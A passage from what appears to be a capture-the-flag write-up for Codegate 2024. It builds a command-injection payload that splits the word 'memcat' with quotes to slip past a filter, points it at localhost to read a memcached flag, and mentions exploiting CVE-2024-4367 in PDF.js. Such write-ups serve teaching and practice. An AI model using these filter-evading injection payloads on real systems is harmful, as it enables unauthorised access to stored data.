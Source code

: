 ```bash
admin://"m"e"m"c"c"a"t --servers=127.0.0.1 flag
```

Then, the character `.`, we can just **replace it with `localhost`**, which points to `127.0.0.1`!

**Hence, here's the final payload:**
```bash
admin://"m"e"m"c"c"a"t --servers=localhost flag
```

By sending this payload, we should be able to get the flag!

- **Flag: `codegate2024{Important_DATA_DO_NOT_SAVE_IN_MEMCACHE}`**

## Conclusion

What we've learned:

1. Exploiting CVE-2024-4367 (PDF.js)
